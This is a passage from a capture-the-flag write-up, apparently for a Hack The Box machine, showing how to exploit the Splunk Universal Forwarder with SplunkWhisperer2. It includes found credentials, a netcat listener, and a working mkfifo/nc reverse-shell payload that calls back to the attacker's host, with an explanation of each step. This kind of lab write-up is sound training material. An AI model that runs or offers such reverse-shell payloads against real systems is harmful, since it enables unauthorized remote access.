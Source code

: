 A quick Google search led me to this page:

[SplunkWhisperer2 - Splunk Universal Forwarder Hijacking](https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/)

And the GitHub repo for the tool:

[SplunkWhisperer2 GitHub](https://github.com/cnotin/SplunkWhisperer2)

If you’ve never done a box like this before, don’t be surprised if you need to download extra tools that weren’t in your original game plan. That’s normal in both CTFs and real-world pentesting. The more tools you get comfortable with, the better.

One issue I ran into—HTB’s VPN connection was **blocking** my download from GitHub. If you have the same problem, just **disconnect from the VPN, download the tool, and reconnect**.

---

### Exploiting Splunk Universal Forwarder

We attempt a simple command:

`python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.38 --payload id`

![[pySplunkError.png]]

It fails with an authentication error. No problem, we have shaun:Guitar123. Let us try that with a reverse shell. Before running the exploit, start a listener on port 1994:

`nc -lvp 1994`

Now run:

`python3 PySplunkWhisperer2_remote.py \   --host 10.10.10.209 \   --username shaun \   --password Guitar123 \   --lhost 10.10.14.38 \   --payload 'rm /tmp/0xjcbk_pipe;mkfifo /tmp/0xjcbk_pipe;cat /tmp/0xjcbk_pipe|/bin/sh -i 2>&1|nc 10.10.14.38 1994 >/tmp/0xjcbk_pipe'`

- `--host 10.10.10.209` is the target.
- `--username shaun` and `--password Guitar123` are the creds we found in the logs.
- `--lhost 10.10.14.38` is our attacking IP.
- `--payload` is a quick trick using mkfifo to spawn a shell that connects back to us.

---

### **Understanding the Payload (Optional)**

_Feel free to skip this part, but if you're curious about how the payload works and why it gives us remote code execution (RCE), here's a breakdown._

---

### **TL;DR: How This Payload Gets Us RCE**

This payload creates a **reverse shell** using a **named pipe (FIFO)** to keep the connection stable.

1. **Creates a named pipe** (`mkfifo`) to act as a queue for input/output.
2. **Spawns an interactive shell** (`/bin/sh -i`) to execute commands.
3. **Uses netcat (`nc`) to send the shell’s output** to our attack machine (`10.10.14.38:1994`).
4. **Keeps the connection alive** by continuously reading/writing from the pipe.

---
